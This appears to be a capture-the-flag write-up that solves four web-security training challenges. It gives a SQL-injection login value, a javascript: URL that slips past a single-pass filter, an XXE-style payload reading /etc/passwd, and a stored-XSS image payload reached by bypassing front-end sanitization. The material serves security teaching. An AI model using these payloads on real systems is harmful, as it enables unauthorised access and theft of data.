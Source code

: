 
### **#7: Login Page**

```
[{"name":"user","value":"isaac' or 1#"},{"name":"password","value":"tifat123!"}]
```



<br /><br />

### **#8: Menu**

```
https://chal8.vercel.app/?directLink=javaScripjavaScriptt:alert("Wizer")
```

Attackers will always attempt to bypass the sanitization by using common practices such as escaping special characters, but in this case, the easiest approach is to take advantage of the fact that the "replace" method performs only a single pass over the string, to replace the occurrences of a certain substring. With that in mind, strings such as `javajavascriptscript:[malicious code here]` will result with exactly what the developer was trying to prevent after the replace function is completed, which is `javascript:[malicious code here]`.

<br /><br />



### **#9: Create User Card**

```
{"firstName":"a\"><<!!ENTITY lastName SYSTEM \"file:///etc/passwd","role":"any"}
```

<br /><br />

### **#10: Messages App**

<br />

In this challenge, the only code you have access to review is the front-end code, which is what's running in the browser, and it seems nicely protected against XSS. However, what happens if an attacker bypasses that front-end and interacts directly with the back-end API? A closer look into the views/addMessage page, reveals that the service invoked is `../api/addMessage`. A quick validation using any of the API testing tools (i.e. Postman or Burpsuite) uncovers the vulnerability, where the API code isn't protecting against saving malicious HTML into the message.

<br />

from inspect element => remove the id="floatingMessage" from the textarea element to bypass the sanitization of DOMPurity

`<textarea name="message" class="form-control" placeholder="Message" id=""></textarea>`

then you can inject any xss payload 

```
<img src=x onerror=alert("Wizer")>
```
